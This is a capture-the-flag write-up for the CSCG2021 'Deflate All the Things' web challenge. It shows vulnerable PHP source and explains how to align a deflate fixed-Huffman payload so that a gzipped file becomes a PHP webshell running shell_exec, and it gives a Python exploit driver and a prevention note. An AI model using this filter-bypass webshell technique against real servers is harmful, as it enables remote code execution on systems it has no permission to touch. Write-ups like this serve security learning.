

# Deflate All the Things

Category: Web
Created: Mar 4, 2021 3:03 PM
Solved: Yes
Subjective Difficulty: 🔥🔥🔥🔥

# WriteUp:

Author: @Tibotix

This was a challenge in the CSCG2021 Competition.

## 📃 Challenge Description:

A cool service for you that should have existed in 1999

## 🔎 Research:

We are given a zip file containing the sources to deploy our own server. A quick look into the files shows that the flag is stored in the `flag.php` file:



Okay, lets take a look on the website.


Here we can enter an url that will be fetched and `gzipped` to a file. This file is stored on the server and we could download it if we want. Here is the source code for this part:

```python
<?php
error_reporting(E_ALL);
session_start();
 

if (!isset($_SESSION['userid'])) {
	die("No userid set. Call index.php first to set the cookie");
  }

if (!isset($_POST["url"])) {
	die("No url set");
}
$url = $_POST["url"];

$ext = ".txt.gz";

if (isset($_POST["ext"])) {
	if (preg_match("/([.a-z0-9]{3,10})/", $_POST["ext"], $matches) == 1) {
		$ext = $matches[0];
	}
}

if (strpos($ext, "..") !== FALSE) {
	die("Hacking!");
}

if (!file_exists('uploads')) {
	mkdir('uploads', 0777, true);
}

$user_dir = 'uploads/' . $_SESSION['userid'] . "/";

if (!file_exists($user_dir)) {
	mkdir($user_dir, 0777, true);
}

if (substr( $url, 0, 7 ) !== "http://" && substr( $url, 0, 8 ) !== "https://") {
	die("Invalid url!");
}

$data_to_compress = file_get_contents($url);
$data_to_compress = "----------- CREATED WITH GZIP PACKER V0.1  -------------------\n" . $data_to_compress;

// We dont like XSS, filter the worst chars
$data_to_compress = str_replace("<", "&lt;", $data_to_compress);
$data_to_compress = str_replace(">", "&gt;", $data_to_compress);

$output_file = $user_dir  . 'outputfile' . $ext;

$gz = gzopen($output_file,'w9');
gzwrite($gz, $data_to_compress);
gzclose($gz);

echo "<a href='" . $output_file . "'>Download file</a>";
```

So as it turns out we can not bypass the extension or ulr filter to get a [LFI](https://www.notion.so/Local-File-Inclusion-0bb88e481c6145a68f82a055b48aec98), we have to somehow inject a webshell in the `gzipped` file on the server so we can execute commands when accessing it.

## 📝 Vulnerability Description:

The program only checks for script tags `<` and `>` in the uncompressed data. This prevents RCE when using a payload that is `gzipped` to a stored block. However, when crafting a payload that does not have `<` or `>` in it, meaning that it is `gzipped` to either a fixed or dynamic block, and this block contains `<` or `>` in its `gzipped` output, we can bypass this filter.

## 🧠 Exploit Development:

For our webshell that will be injected in the `gzipped` file we will use an already engineered payload for a fixed huffman encoding from [idontplaydarts](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/):


*NOTE* that `<?=` is a shortcut for `<?php echo`. 
So with this payload we can execute any arbitrary *php function* with any arbitrary *parameter*. For our use cases the `shell_exec` function is exactly what we want so we can emulate a web shell through that. We specify this function in the GET parameter with the key `'0'`, and the parameter for this function in the POST body with the key `'1'`.

As our payload is prepended with the string `"----------- CREATED WITH GZIP PACKER V0.1  -------------------\n"` , we cannot simply use the payload above *as it is*. The problem is, the web shell payload is designed to work when `deflating` it at the beginning. The deflate algorithm describes the start of each *block* in a `deflated` stream as follows:


So the first `3` bits in a new block describes if the block is the last block and what *blocktype* is used.
When `gzipping` our web shell payload, the start of the block would look like

```python
0b01100011 #web shell starts at 4rd bit
0b01011110
```

with the 1 at the end marking this block as the last block and the 01 afterwards indicating this block as a *fixed block*. 

Though when `gzipping` the web shell with the prepended string, this alignment is destroyed. We can see that the web shell compression starts at the 5rd bit:

```python
0b11000101 #web shell starts at 5rd bit**
0b10111100
```

To fix that, lets take a look on how `deflate` compresses data using the fixed huffman encoding:


So literal values from `144` till `255` are represented as 9bit codes going from `0b110010000` till `0b111111111`. Knowing this we can prepend our web shelll payload 6 *nine-bit literals* , to align the start of the web shell payload to the original 4rd bit. I choosed `\x90\x91\x92\x93\x94\x95\x93` as my 6 *nine-bit literals*, and we can see that the web shell payload is aligned to the 4rd bit again:

```python
0b01100110 #web shell starts at 4rd bit, same as original**
0b01011110
```

So our final payload looks like this:


When this payload is `gzipped` on the server, it is giving us the web shell:


## 🔐 Exploit Program:

```python
import requests
import sys
import re
import gzip
import sys

if(len(sys.argv) < 4):
	print("Usage: python3 xtool.py <webapp-uri> <upload-uri> <ext>")
	sys.exit(0)

url = str(sys.argv[1])

#get user_id cookie
def get_user_id_cookie(s):
	s.get(url)

def parse_error(r):
	if(not r.ok):
		return "Not OK"
	if("Invalid" in r.text):
		return "Invalid"
	elif("userid" in r.text):
		return "userid"
	elif("Hacking" in r.text):
		return "Hacking"
	return ""

def compress_request(s, cookies, headers, file_uri, ext, data):
	r = s.post(url+"compress.php", data=data, cookies=cookies, headers=headers)

	error = parse_error(r)
	if(error):
		print(error)
		sys.exit(0)
	return r

def extract_download_link(r):
	link = re.findall("href='.*?'", r.text)
	if(link):
		return url + link[0].replace("'","").replace("href=","")

def decompress_file(s, link_to_file):
	r = s.get(link_to_file)
	d = gzip.decompress(r.content)
	return d.decode('utf-8')

cookies = {}
headers = {}

file_uri = str(sys.argv[2]).encode("utf-8")
ext = str(sys.argv[3])
print("webapp: {0}".format(str(url)))
print("file_uri: {0}".format(str(file_uri)))
print("ext: {0}".format(str(ext)))

data = {"url": file_uri, "ext": ext}

s = requests.Session()
get_user_id_cookie(s)
print("Set user_id cookie")
r = compress_request(s, cookies, headers, file_uri, ext, data)
print("Sent compress request...")
link = extract_download_link(r)
print("Decompressing file {0}".format(str(link)))
c = decompress_file(s, link)
print("Decrompressed output: \n{0}".format(str(c)))
```

## 💥 Run Exploit:


**FLAG: CSCG{I_h0pe_y0u_f0und_th3_sh0rt_tags_(btw_idea_was_from_CVE2020_11060)}**

## 🛡️ Possible Prevention:

To prevent this exploit, one should also scan the compressed `gzipped` output and take actions if something like `<?` occurs in the output. This can be lead to false positives, but a `<?` sequence inside the compressed data is without a specially crafted input very unlikely.

## 🗄️ Summary / Difficulties:

Personally i enjoyed this challenge a lot! The context of a real CVE made this challenge also very interesting. I learned a lot about the zlib internals and had a lot of fun reversing the deflate algorithm. Generally said there would have been so much more approaches to solve this challenge, that this challenge is very valuable for CTF players.

## 🗃️ Further References:

[RFC 1951 - DEFLATE Compressed Data Format Specification version 1.3](https://tools.ietf.org/html/rfc1951)

[Playing with GZIP: RCE in GLPI (CVE-2020-11060)](https://offsec.almond.consulting/playing-with-gzip-rce-in-glpi.html)

[Revisiting XSS payloads in PNG IDAT chunks](https://www.adamlogue.com/revisiting-xss-payloads-in-png-idat-chunks/)

[](https://www.infinitepartitions.com/art001.html)

[Deflate Format: differences between type blocks](https://stackoverflow.com/questions/53243422/deflate-format-differences-between-type-blocks)

[Encoding Web Shells in PNG IDAT chunks](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/) 

## 🔨 Used Tools:

- pwntools
- python
- pre existing webshell payload from [here](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)

